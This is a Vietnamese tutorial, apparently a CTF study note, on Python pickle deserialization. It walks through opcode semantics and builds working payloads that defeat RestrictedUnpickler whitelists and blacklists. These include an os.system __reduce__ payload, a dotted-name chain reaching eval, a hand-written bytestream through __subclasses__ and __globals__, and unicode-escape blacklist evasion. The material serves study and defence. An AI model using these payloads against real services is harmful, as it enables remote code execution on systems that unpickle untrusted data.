## Phân tích cách khai thác pickle tham khảo các bài viết public và tài liệu của python

### Mở đầu

[Insecure Deserialization in Python](https://tontac.team/insecure-deserialization-in-python/)

Tại bài viết này, tác giả đã nói về những lý thuyết cơ bản của Object Serialization trong python. Tác giả đã nhận xét:


Thực vậy, quá trình unpickle có thể hiểu là chuyển đổi luồng byte thành cấu trúc đối tượng ban đầu. Mà quá trình unpickle có thể thực thi mã Python, nói cách khác nếu ta làm chủ được cách mà pickle chuyển đồi luồng byte (hay ta coi nó như là một stand-alone stack language) thì có thể craft được những payload mạnh hơn. Lý do là vì khi unpickle, python không chỉ khôi phục dữ liệu mà còn có khả năng tạo ra bất kỳ đối tượng nào trong Python bao gồm cả hàm, lớp, hoặc kết quả gọi một hàm bất kỳ. Chi tiết hơn nữa là nhờ những opcode nguy hiểm như **GLOBAL** hoặc **REDUCE** sẽ được phân tích ở phần sau.



Như vậy, nhận xét trên của tác giả cũng có thể hiểu rằng khả năng phân tích của pickle lớn hơn khả năng tạo mã của nó. Nói một cách đơn giản nghĩa là ta có thể tạo ra những **bytestream bằng cách thủ công** với sức mạnh lớn hơn là các bytestream được tạo ra bởi những hàm có sẵn như pickle.dump. Trong bài viết, tác giả có nói  về một số những trick có thể áp dụng khi viết tay opcode: 

- khởi tạo object với giá trị tùy ý trong runtime (trong quá trình unpickle)

- override giá trị có sẵn, truy cập đến `__main__.secret` chẳng hạn 



Những phần phân tích trên là lí do vì sao trong tài liệu của python lại nhận xét như thế này.

### OPCODE

Như vậy, để có thể khai thác tối đa pickle ta cần phải biết craft một bytestream bằng tay để có thể thực hiện những hành vi nguy hiểm hơn. Phần này chứa lượng lý thuyết lớn nên ta có thể sử dụng ví dụ để rõ ràng hơn. Lưu ý rằng, pickle có các "phiên bản" proto từ 0-5. Ở bài viết này, ta sẽ sử dụng proto0 để dễ sử dụng và tiện lợi rằng các protocol này backwards compatible



Ví dụ đầu tiên:

```python
import pickle
data = {'username': 'admin', 'password': '1234'}
pik = pickle.dumps(data)
print(pik)
import pickletools
pickletools.dis(pik)
```

```
b'(dp0\nVusername\np1\nVadmin\np2\nsVpassword\np3\nV1234\np4\ns.'
    0: (    MARK
    1: d        DICT       (MARK at 0)
    2: p    PUT        0
    5: V    UNICODE    'username'
   15: p    PUT        1
   18: V    UNICODE    'admin'
   25: p    PUT        2
   28: s    SETITEM
   29: V    UNICODE    'password'
   39: p    PUT        3
   42: V    UNICODE    '1234'
   48: p    PUT        4
   51: s    SETITEM
   52: .    STOP
```

Ta sẽ phân tích từng bước mà câu trúc object này được pickle ra sao.

| unicode     | opcode             | tác dụng                                                                               | stack                                             | memo                                                                                                |
| ----------- | ------------------ | -------------------------------------------------------------------------------------- | ------------------------------------------------- | --------------------------------------------------------------------------------------------------- |
| (           | MARK               | đánh dấu ranh giới trong stack, phục vụ cho các thao tác sau như SETITEMS, TUPLE, v.v. | [MARK]                                            | {}                                                                                                  |
| d           | DICT               | Tạo một dictionary rỗng trên stack                                                     | [MARK, {}]                                        | {}                                                                                                  |
| p0          | PUT 0              | Lưu object trên đỉnh stack (ở đây là {}) vào memo index 0 để có thể dùng lại sau       | [MARK, {}]                                        | {0: {}}                                                                                             |
| Vusername\n | UNICODE 'username' | có dạng `Vtext\n`, push chuỗi 'username' lên stack.                                    | [MARK, {}, 'username']                            | {0: {}}                                                                                             |
| p1          | PUT 1              | Lưu 'username' vào memo index 1.                                                       | [MARK, {}, 'username']                            | {0: {}, 1: 'username'}                                                                              |
| Vadmin\n    | UNICODE 'admin'    | Push 'admin' lên stack.                                                                | [MARK, {}, 'username', 'admin']                   | {0: {}, 1: 'username'}                                                                              |
| p2          | PUT 2              | lưu 'admin' vào memo index 2                                                           | [MARK, {}, 'username', 'admin']                   | {0: {}, 1: 'username', 2: 'admin'}                                                                  |
| s           | SETITEM            | Lấy 2 object cuối trên stack và set vào dict ngay dưới chúng                           | [MARK, {'username': 'admin'}]                     | {0: {'username': 'admin'}, 1: 'username', 2: 'admin'}                                               |
| ...         |                    |                                                                                        |                                                   |                                                                                                     |
| .           | STOP               |                                                                                        | [MARK, {'username': 'admin', 'password': '1234'}] | {0: {'username': 'admin', 'password': '1234'}, 1: 'username', 2: 'admin', 3: 'password', 4: '1234'} |

Để minh họa rõ hơn, ta có thể lấy ví dụ trong phần trình bày [Pain Pickle](https://hitcon.org/2022/slides/Pain%20Pickle%EF%BC%9A%E7%B3%BB%E7%B5%B1%E5%8C%96%E5%9C%B0%E7%B9%9E%E9%81%8E%20Restricted%20Unpickler.pdf) trong hitcon 2022:



### Hand-crafted bytestream

Phân tích qua ví dụ này, ta cũng có thể đoán được để khai thác pickle bằng cách viết tay thủ công thì cũng phải có tư duy khi làm mấy bài ROP chain trong pwn. Chúng ta tiếp tục phân tích một ví dụ dùng `__reduce__` xem sao:

```python
import pickle, os

class RCE:
    def __reduce__(self):
        return (os.system, ("whoami",))
payload = pickle.dumps(RCE())
pickle.loads(payload)

import pickletools
pickletools.dis(payload)
```

```
nguyenlong05
b'cposix\nsystem\np0\n(Vwhoami\np1\ntp2\nRp3\n.'
    0: c    GLOBAL     'posix system'
   14: p    PUT        0
   17: (    MARK
   18: V        UNICODE    'whoami'
   26: p        PUT        1
   29: t        TUPLE      (MARK at 17)
   30: p    PUT        2
   33: R    REDUCE
   34: p    PUT        3
   37: .    STOP
highest protocol among opcodes = 0
```

**cposix\nsystem\n**: opcode **GLOBAL**. Trong proto 0, `c` sẽ đọc hai chuỗi cách nhau bởi khoảng trắng: chuỗi đầu là tên module, chuỗi thứ hai là tên object trong module đó. Ở đây là "posix" và "system. python sẽ import module `posix` rồi lấy attribute `system` từ module này. Kết quả chính là object callable `posix.system` (trong Python thực tế là `os.system` do `os` là wrapper của `posix` trên Unix). Object này được push lên stack.

```
stack = [posix.system]
memo = {}
```

**p0** **PUT** lưu object trên đỉnh stack vào memo index 1, lúc này memo là {0: posix.system}. Tiếp theo đẩy **MARK** vào stack rồi **UNICODE** chuỗi 'whoami' vào stack tiếp đồng thời cũng lưu lại vào memo bằng **PUT 1** 

```
stack = [posix.system, MARK, 'whoami']
memo = {0: posix.system, 1: 'whoami'}
```

t opcode **TUPLE**, opcode này pop chuỗi trên đỉnh và "gói" nó lại thành một tuple, ở đây tính đến MARK thì chỉ có 'whoami' cho nên tuple là ('whoami',), đồng thời cũng **PUT 2** vào memo

```
stack = [posix.system, ('whoami',)]
memo = {0: posix.system, 1: 'whoami', 2: ('whoami',)}
```

Mục đích gói lại thành tuple là tại vì tiếp theo opcode R **REDUCE** hay chính là `__reduce__` sẽ lấy 2 phần tử trên cùng của stack với đỉnh là tham số (phải là tuple nên mới cần gói lại từ trước), bên dưới là một hàm thực thi (callable). sau đó R push kết quả của hàm này sau khi thực thi vào stack. Cuối cùng stack chứa ['nguyenlong05'] là kết quả của `os.system('whoami')`.

```
stack = ['nguyenlong05']
memo = {0: posix.system, 1: 'whoami', 2: ('whoami',), 3: 'nguyenlong05'}
```



Đây là cách đơn giản để craft một pickle bytestream bằng tay. Về bản chất nó không khác gì cách được tạo ra bởi pickle.dumps(). Tuy nhiên hiểu được cách craft thì ta có thể thủ công tạo ra những payload mạnh hơn. Một điều thú vị rằng ta ở đây đã bỏ qua việc put 0 và put 1 tại vì nó không được sử dụng khi unpickle, p2 ở đây được **REDUCE** sử dụng do opcode này ngầm thực hiện **GET** để lấy memo 2 cho args.

### RestrictedUnpickler

Chính vì những lý do bảo mật như như đã nêu ở phần đầu, python đã giới thiệu class `RestrictedUnpickler` với hàm `find_class` như sau để giảm được mức độ nguy hiểm của pickle, tất nhiên là chỉ giảm thiểu mà thôi:

```python
import builtins
import io
import pickle

safe_builtins = {
    'range',
    'complex',
    'set',
    'frozenset',
    'slice',
}

class RestrictedUnpickler(pickle.Unpickler):

    def find_class(self, module, name):
        # Only allow safe classes from builtins.
        if module == "builtins" and name in safe_builtins:
            return getattr(builtins, name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" %
                                     (module, name))

def restricted_loads(s):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(s)).load()
```

Trong quá trình unpickle, khi gặp opcode **GLOBAL** hay **STACK_GLOBAL**, pickle sẽ gọi `find_class(module, name)` để tìm object tương ứng (ví dụ như là os.system hay subprocess.Popen). Ở đây ta override method này chỉ cho phép:

- module là "builtins"

- name nằm trong danh sách safe_builtins

Nếu không thì ném ra pickle.UnpicklingError, điều này ngăn việc tạo object từ các module nguy hiểm như os, subprocess, hoặc class nào đó trong code. Để hiểu hơn về cách mà cơ chế này hoạt động, ta sẽ phân tích `find_class()`



Trong cơ chế của pickle.Unpickler, hàm **find_class()** chịu trách nhiệm tìm và trả về object (một class hoặc hàm nào đó) tương ứng với tên module và tên object được đọc từ payload pickle khi gặp opcode **GLOBAL** hoặc **STACK_GLOBAL**. Mặc định, find_class sẽ import module bằng `__import__(module)` rồi lấy attribute `getattr(module_obj, name)` để trả về object thật. Ta có thể hiểu qua ví dụ sau:



### Bypass RestrictedUnpickler

Dựa theo [Pain Pickle](https://hitcon.org/2022/slides/Pain%20Pickle%EF%BC%9A%E7%B3%BB%E7%B5%B1%E5%8C%96%E5%9C%B0%E7%B9%9E%E9%81%8E%20Restricted%20Unpickler.pdf), ta có thể triển khai được 2 cách để lấy object khi unpickle với hàm find_class mà áp dụng whilelist/blacklist custom:



Tài liệu đã trình bày 3 cách bypass. Ta đi xét cách đầu tiên, ở đây ta xét trường hợp nếu service đệ quy lấy object, nếu `name` chứa dấu `.` thì pickle sẽ tự split và getattr liên tiếp. Để minh họa cách hoạt động thì ta sẽ lấy một ví dụ payload của cùng tài liệu:



Ví dụ, nếu ta đưa `module = "builtins"` và `name = "obj.__class__.__base__.__subclasses__"`, super().find_class() sẽ import module builtins và lần lượt lấy obj - class của obj - baseclass - v.v. Điều đặc biệt ở đây là quá trình check `is_safe` chỉ diễn ra một lần với module và name như ban đầu ta đưa vào find_class, do vậy mới có thể bypass được blacklist. Thật vậy, để kiểm chứng và làm rõ phần này, ta có thể đi kiểm tra find_class tại source code pickle https://github.com/python/cpython/blob/main/Lib/pickle.py





Ta quan tâm tới proto mới của pickle: proto4. ở đây, `module` là chuỗi mà pickle nhận được từ dữ liệu đã serialize. Tiếp theo nó cho phép `name` chứa dấu `.` và split nó để ném vào `_getattribute`. Ở đây nó thực hiện lấy class sâu nhất trong name bằng cách liên tục thực hiện attr như đã nói ở trên.

Điều quan trọng hơn để khai thác là: hàm kiểm tra `is_safe` chỉ được thực  hiện một lần với input là module và name có dạng "chuỗi dài" chứ không phải là các class bị cấm,  từ đó có thể bypass các blacklist lỏng lẻo.

### Bypass Recursively Get with OPCODE phần 1

Đầu tiên ta thử nghiệm craft payload với mã python sau:

```python
import base64
from io import BytesIO
import pickle as _pickle

ALLOWED_MODULES = ['__main__', 'app', 'request']
class RestrictedUnpickler(_pickle.Unpickler):
    def find_class(self, module, name):
        if (module in ALLOWED_MODULES):
            return super().find_class(module, name)
        raise _pickle.UnpicklingError()

def unpickle(data):
    return RestrictedUnpickler(BytesIO(base64.b64decode(data))).load()
```

```python
payload = (
b'''\x80\x04c__main__
__builtins__.eval
(V__import__('os').system('whoami')
tp0
Rp1
.'''
)
```

Tương tự như ví dụ sử dụng reduce ở trên ta sử dụng os.system("id"), ở payload này ta sử dụng chain `__main__.__builtins__.eval("__import__('os').system('whoami')")`.  Như vậy ta thành công vượt qua lớp kiểm tra whitelist ở module. Một điểm lưu ý là, ở đây ta cần chỉ rõ protocol được sử dụng là 4 trở lên, lúc này ta mới có thể lợi dụng logic đã được trình bày vừa nãy. 

Ta có bảng so sánh như sau:

|        | ví dụ ban đầu | ví dụ hiện tại                           |
| ------ | ------------- | ---------------------------------------- |
| module | posix         | `__main__`                               |
| name   | system        | `__builtins__.eval`                      |
| tuple  | ('id',)       | (`'__import__('os').system('whoami')`',) |

### Bypass Recursively Get with OPCODE phần 2

Ta thực hiện bypass thêm như sau:

```python
import pickle as _pickle

ALLOWED_MODULES = ['__main__', 'app', 'request']
UNSAFE_NAMES = ['__setattr__', '__delattr__', '__dict__', '__getattribute__', '__getitem__', '__subclasses__', 'eval']
BLACKLISTED_NAMES = ['__globals__', '__import__', '__base__', '__builtins__', 'os', 'sys', 'system', 'popen', 'open', 'read', 'communicate']

class RestrictedUnpickler(_pickle.Unpickler):
    def find_class(self, module, name):
        if (module in ALLOWED_MODULES and not any(name.startswith(f"{name_}.") for name_ in UNSAFE_NAMES) and not any(name.startswith(f"{name__}") for name__ in BLACKLISTED_NAMES)):
            return super().find_class(module, name)
        raise _pickle.UnpicklingError()

def unpickle(data):
    return RestrictedUnpickler(BytesIO(base64.b64decode(data))).load()
```

Ở đây ta cần phải thực hiện thêm việc bypass logic được thêm: các module không được bắt đầu bằng các giá trị trong UNSAFE_NAMES và BLACKLISTED_NAMES. Để bypass được ta cần thực hiện một chain phức tạp hơn. Một điều khó khăn trong việc craft chain là pickle không hỗ trợ việc truy cập trực tiếp value-key như python thông thường mà ta sẽ phải tư duy với logic stack để dần truy cập đến attribute mong muốn.



Ta có 3 cách để có thể thực hiện khởi tạo các hàm thực thi bằng bytecodes.

- R REDUCE: lấy một callable và một tuple từ stack, rồi gọi callable(tuple)

- i INST: tạo instance của một class

- o OBJ: lấy một callable và một string từ stack rồi gọi callable(string)

Ta sẽ sử dụng luôn payload được đề cập tới trong  tài liệu của Pain Pickle



Tuy nhiên, ta không thể trực tiếp craft payload này nhờ opcode vì pickle không hỗ trợ truy cập key-value, ta không thể gọi `__subclasses__()[137]` hay  `__globals__['__builtins__']['eval']` trực tiếp. Để giải quyết vấn đề này, ta phải tìm cách truy cập các attribute này nhờ các method callable có sẵn ví dụ `__getattribute__`, `list.__getitem__`, `object.__subclasses__`. Đầu tiên ta cần truy cập tới value index của list `__subclasses__()`  

```python
import __main__
def main():pass

mysubclasses = __main__.__class__.__base__.__subclasses__
myatrr = __main__.__class__.__base__.__getattribute__
mysubclasseslist = mysubclasses()                      #[1]
mygetitem = myatrr(mysubclasseslist, '__getitem__')    #[2]
myoswrapclose = mygetitem(155)                         #[3]

print(myoswrapclose) #<class 'os._wrap_close'>
```

Phần code này định nghĩa 2 method và thực thi 3 method chỉ sử dụng những yếu tố pickle có: thực thi với **REDUCE** và đệ quy lấy attribute với proto 4 trở lên.  Phân tích như sau: 

1. Khi ta thực thi method `object.__subclasses__()` như trình bày trong phần code trên là phần định nghĩa biến mysubclasseslist, nó sẽ trả về một list là những class là subclass của object.

2. Khi ta thực thi method `object.__getattribute__(obj, "attr-name")` thì nó sẽ thực hiện trả về thuộc tính attr-name của object obj, hay mình thường hiểu là nó trả về obj.attr-name. Như trong code trên thì nó trả về `object.__subclasses__()__getitem__` . Vốn dĩ là vì lúc này obj là một list, mà list thì sẽ có cái dunder method `__getitem__`.

3. Khi ta thực thi method `list.__getitem__(key)` thì nó đơn giản là trả về list[key]. Ở phần code thì nó trả về `object.__subclasses__()__getitem__(155)` rồi !

Như vậy là ta đã có thể truy cập đến class os._wrap_close chỉ với việc thực thi các method khác nhau một cách vi diệu.

```python
myinit = myatrr(myoswrapclose, '__init__')               #[1]
myglobals = myatrr(myinit, '__globals__')
mybuiltinsdict = myatrr(myglobals, '__getitem__')        #[2]
mybuiltins = mybuiltinsdict('__builtins__')
myevaldict = myatrr(mybuiltins, '__getitem__')           #[3]
myeval = myevaldict('eval')
mycommand = myeval('__import__("os").system("whoami")')

print(mycommand) #nguyenlong05
```

Phân tích phần tiếp theo để đi đến eval:

1. Ta tiếp tục chain bằng method `object.__getattribute__` định nghĩa ở trên, lần lượt đi tới `object.__subclasses__()[137].__init__.__globals__`

2. Lưu ý rằng, lúc này `__globals__` chứa các dict cho nên khi ta trích xuất builtins lại một lần nữa sử dụng `__getitem__`. Ở đây getitem trả về value trong dict cho nên ta truyền giá trị là key vào method getattribute. Cuối cùng ta nhận được `__globals__['__builtins__']`

3. Lặp lại một lần nữa ta nhận được `__globals__['__builtins__']['eval']`, chính là method eval. Cuối cùng thực thi hàm này với tham số là command cần được thực thi, xác nhận khả năng bypass của payload.

Thực hiện viết lại payload dưới dạng bytecodes của pickles như sau:

```python
raw = (
    b"\x80\x04"
    # mysubclasses
    b"c__main__\n__class__.__base__.__subclasses__\n"
    b"(" b"t" b"R"                # () → __subclasses__() -> list
    b"p0\n"                       # memo[0] = subclasseslist
    # myattr
    b"c__main__\n__class__.__base__.__getattribute__\n"
    b"p1\n"                       # memo[1] = object.__getattribute__
    # mygetitem
    b"(" b"g0\n" b"V__getitem__\n" b"t" b"R"
    # myoswrapclose = mygetitem(155)
    b"(" b"I155\n" b"t" b"R"
    b"p2\n"                       # memo[2] = myoswrapclose
    # myinit
    b"g1\n"                       # push __getattribute__
    b"(" b"g2\n" b"V__init__\n" b"t" b"R"
    b"p3\n"                       # memo[3] = myinit
    # myglobals
    b"g1\n" b"(" b"g3\n" b"V__globals__\n" b"t" b"R"
    b"p4\n"                       # memo[4] = myglobals (dict)
    # mybuiltinsdict
    b"g1\n" b"(" b"g4\n" b"V__getitem__\n" b"t" b"R"
    b"p5\n"                       # memo[5] = mybuiltinsdict (bound)
    # mybuiltins
    b"(" b"V__builtins__\n" b"t" b"R"
    b"p6\n"                       # memo[6] = __builtins__ (dict/module)
    # myevaldict
    b"g1\n" b"(" b"g6\n" b"V__getitem__\n" b"t" b"R"
    b"p7\n"                       # memo[7] = myevaldict
    # myeval
    b"(" b"Veval\n" b"t" b"R"
    b"p8\n"                       # memo[8] = eval
    # mycommand
    b"(" b"V__import__(\"os\").system(\"whoami\")\n" b"t" b"R"
    b"."
)
```

### Bypass Recursively Get with OPCODE phần 3

Ta tiếp tục với challenge:

```python
from base64 import b64decode
from io import BytesIO
import pickle as _pickle

ALLOWED_MODULES = ['__main__', 'app', 'request']

UNSAFE_NAMES = ['__setattr__', '__delattr__', '__dict__', '__getattribute__', '__getitem__', '__subclasses__', 'eval']

BLACKLISTED_NAMES = ['__globals__', '__import__', '__base__', '__builtins__', 'os', 'sys', 'system', 'popen', 'open', 'read', 'communicate']

class RestrictedUnpickler(_pickle.Unpickler):
    def find_class(self, module, name):
        print(module, name)
        if (module in ALLOWED_MODULES and not any(name.startswith(f"{name_}.") for name_ in UNSAFE_NAMES) and not any(name.startswith(f"{name__}") for name__ in BLACKLISTED_NAMES)):
            return super().find_class(module, name)
        raise _pickle.UnpicklingError()

def unpickle(data):
    for name_ in BLACKLISTED_NAMES:
        if name_.encode() in b64decode(data):
            return 'hacked'
    return RestrictedUnpickler(BytesIO(b64decode(data))).load()
```

Ở đây service thực hiện thêm kiểm tra ban đầu bằng cách decode bytecodes và kiểm tra xem có chứa giá trị trong BLACKLISTED_NAMES hay không.




[Insecure Deserialization in Python](https://tontac.team/insecure-deserialization-in-python/) 

Vẫn từ bài viết này, tác giả đã cung cấp một số cách để bypass unicode, lợi dụng trick này ta có thể bypass lượt kiểm tra đầu tiên của service. Lý do là vì những giá trị encode này được decode trong quá trình unpickle, còn lượt kiểm tra ban đầu chỉ đơn giản là kiểm tra chuỗi bytecodes xem có chứa các giá trị trong blacklist không mà thôi. Ví dụ, hàm kiểm tra đầu sẽ nhìn `V__globals_\u005f` là chuỗi `__globals_\u005f` trong khi pickle sẽ nhìn thấy `__globals__`.

```python
    b"c__main__\n__class__.__base__.__subclasses__\n"
    b"(" b"t" b"R"
    b"p0\n"
```

Hiện tại, ta đang thực hiện thực thi method ban đầu bằng cách sử dụng opcode c **GLOBAL**. opcode này load module theo tên được truyền vào và không thể dùng trick bypass của opcode **V** được. Vậy ta phải tìm một cách khác để load module mà vẫn dùng opcode V để encode những chuỗi sẽ bị cấm.

```python
    b"V__main__\n"
    b"V__class__.__base_\u005f.__subclasses__\n"
    b"\x93"
    b"(" b"t" b"R"
    b"p0\n"
```

Thật may mắn vì mình đã thực hiện tìm hiểu cả proto 0 và proto 4 trước đó. Ở protocol 4 mặc định sử dụng opcode **STACK_GLOBAL** thay vì là **GLOBAL** và nó linh hoạt hơn rất nhiều khi có thể load từ stack. Như vậy ta chỉ việc push hai chuỗi module và attribute lên stack với opcode **V** rồi dùng **\x93** để lấy object là xong. Như ví dụ trên thì thay vì trực tiếp truyền các giá trị vào GLOBAL thì ta push `__main__` và `__class__.__base__.__subclasses__` lên stack, sau đó thực hiện đặt **MARK**, gói **TUPLE** và **REDUCE** như thường để thực hiện gọi method subclasses(). làm tương tự để bypass và ta có kết quả:

